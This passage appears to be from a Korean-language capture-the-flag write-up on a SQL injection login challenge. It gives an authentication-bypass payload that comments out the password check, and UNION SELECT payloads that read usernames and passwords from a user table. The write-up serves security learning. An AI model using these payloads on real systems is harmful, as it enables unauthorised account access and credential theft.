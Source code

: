 |

```sql
admin' -- 1
```

실제 공격 코드는 이러한 형태가 됨

뒤에 1을 쓰는 이유는 공백이 있음을 명확하게 하기 위해서임. 아닐 수도 있음ㅋ

`password`는 주석처리 될 운명이기 때문에 아무거나 넣어도 됨 

|

|

### 방법 2

[1.2 SQL Injection DB](https://parkseunghan.github.io/web%20hacking/knock-on-challenges-1-2/) 참고

**union**을 활용해서 `username`과 `password`를 직접 구할 수 있음

user 테이블의 형태는 이미 알고 있으므로

`username`과 `password`를 조회하여 직접 **"admin"** 계정의 `password`를 알아낼 수 있음

|

```sql
' union select 1,(select username from user limit 0,1),3 -- 1
```

![1.1 SQL Injection - Login 6](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_6.png)

user 테이블의 첫 번째 행의 `username`은 “guest”

|

```sql
' union select 1,(select password from user limit 0,1),3 -- 1
```

![1.1 SQL Injection - Login 7](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_7.png)
